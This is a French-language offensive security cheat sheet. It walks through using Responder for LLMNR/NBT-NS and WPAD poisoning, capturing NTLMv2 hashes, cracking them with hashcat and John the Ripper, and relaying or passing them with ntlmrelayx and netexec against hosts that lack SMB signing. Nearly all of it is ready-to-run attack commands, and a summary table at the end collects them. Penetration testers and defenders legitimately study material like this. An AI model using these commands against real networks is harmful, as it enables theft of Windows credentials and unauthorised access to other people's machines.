

Cette documentation détaille l'utilisation de **Responder** pour l'exploitation de protocoles de résolution de noms (LLMNR/NBT-NS) dans un environnement réseau. Cette technique s'inscrit dans les phases d'exploitation et de mouvement latéral, souvent corrélée aux sujets de **SMB Relay Attacks**, **Active Directory Enumeration**, **Password Cracking Techniques** et **Network Traffic Analysis**.



> [!danger] Condition critique
> L'attaque nécessite une position privilégiée sur le segment réseau (MITM) pour intercepter les broadcasts.

> [!warning] Risque de DoS
> L'arrêt de **systemd-resolved** peut impacter la connectivité DNS de la machine attaquante.

## Reconnaissance réseau

### Analyse du trafic
L'identification de la présence de requêtes LLMNR ou NBT-NS sur le segment réseau permet de valider la faisabilité de l'attaque.

Utilisation de filtres Wireshark :
```text
udp.port == 5355 or udp.port == 137
```

### Analyse de la configuration SMB Signing (ciblage)
Avant de tenter un relay, il est crucial d'identifier les machines où le **SMB Signing** est désactivé ou non requis. Un serveur avec le signing activé rejettera les tentatives de relay.

```bash
netexec smb <CIDR> --gen-relay-list relay_targets.txt
```
*La sortie indiquera les cibles potentielles où `SMB Signing` est `False`.*

## Configuration de l'environnement

### Préparation des services
**Responder** nécessite l'utilisation de ports spécifiques (UDP 5355, UDP 137). Il est nécessaire d'arrêter les services locaux susceptibles d'entrer en conflit.

```bash
sudo systemctl stop systemd-resolved
sudo systemctl stop postfix
sudo systemctl stop exim
```

## Exécution de l'attaque

### Lancement de Responder
L'outil doit être exécuté sur l'interface réseau connectée au segment cible.

```bash
ip a
sudo responder -I <interface>
```

Exemple pour une interface spécifique :
```bash
sudo responder -I ens224
```

### Techniques d'empoisonnement WPAD
Le protocole WPAD (Web Proxy Auto-Discovery) est une cible privilégiée. En répondant aux requêtes WPAD, l'attaquant peut forcer les navigateurs ou les services système à utiliser un proxy malveillant, facilitant l'interception de credentials.

```bash
# Activer le mode WPAD dans Responder.conf
# [WPAD]
# On = On
sudo responder -I <interface> -w -d
```

### Stratégies de contournement (ex: IPv6)
Certains environnements modernes privilégient l'IPv6. **Responder** doit être configuré pour écouter sur les interfaces IPv6 afin de ne pas manquer ces requêtes.

```bash
# Vérifier l'activation IPv6
cat /proc/sys/net/ipv6/conf/all/disable_ipv6
# Lancer Responder avec support IPv6
sudo responder -I <interface> -6
```

## Analyse des captures

### Identification des hashs
Une fois le poisoning actif, les hashs **NTLMv2** capturés sont affichés dans la console et enregistrés dans les logs.

Localisation des fichiers de capture :
```bash
ls /usr/share/responder/logs/
```

Lecture d'un hash spécifique :
```bash
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-<IP>.txt
```

### Analyse des risques (DoS potentiel)
> [!danger] Danger
> **Responder** peut causer des instabilités réseau si mal configuré. L'empoisonnement massif peut saturer les tables de résolution de noms des clients, entraînant des dénis de service locaux sur les machines victimes.

## Cracking de hashs

### Utilisation de hashcat
Le mode **-m 5600** est requis pour le format **NTLMv2**.

```bash
hashcat -m 5600 -a 0 hash.txt rockyou.txt --force
```

### Utilisation de John The Ripper
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SMB Relay

> [!warning] Prérequis
> Le **SMB Signing** doit être désactivé sur la cible pour permettre le relay.

### Exécution du relay
L'outil **ntlmrelayx.py** permet de relayer les hashs capturés vers des cibles identifiées.

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```

### Vérification avec netexec
Utilisation de **netexec** (successeur de **crackmapexec**) pour valider la validité d'un hash **NTLMv2** sur une cible :

```bash
netexec smb <IP cible> -u user -H HASH --shares
```

## Nettoyage

Il est impératif de restaurer les services réseau après l'opération.

```bash
sudo systemctl restart systemd-resolved
```

## Synthèse des commandes

| Action | Commande |
| :--- | :--- |
| Vérifier interface réseau | `ip a` |
| Vérifier trafic LLMNR/NBT-NS | Wireshark `udp.port == 5355 or udp.port == 137` |
| Scanner cibles sans SMB Signing | `netexec smb <CIDR> --gen-relay-list` |
| Arrêter services bloquants | `sudo systemctl stop systemd-resolved postfix exim` |
| Lancer Responder | `sudo responder -I ens224` |
| Voir logs des captures | `ls /usr/share/responder/logs/` |
| Lire un hash capturé | `cat /usr/share/responder/logs/SMB-NTLMv2-SSP-<IP>.txt` |
| Craquer hash avec **hashcat** | `hashcat -m 5600 -a 0 hash.txt rockyou.txt --force` |
| Craquer hash avec **john** | `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` |
| Tester hash **NTLM** sur SMB | `netexec smb <IP cible> -u user -H HASH --shares` |
| Relancer le DNS | `sudo systemctl restart systemd-resolved` |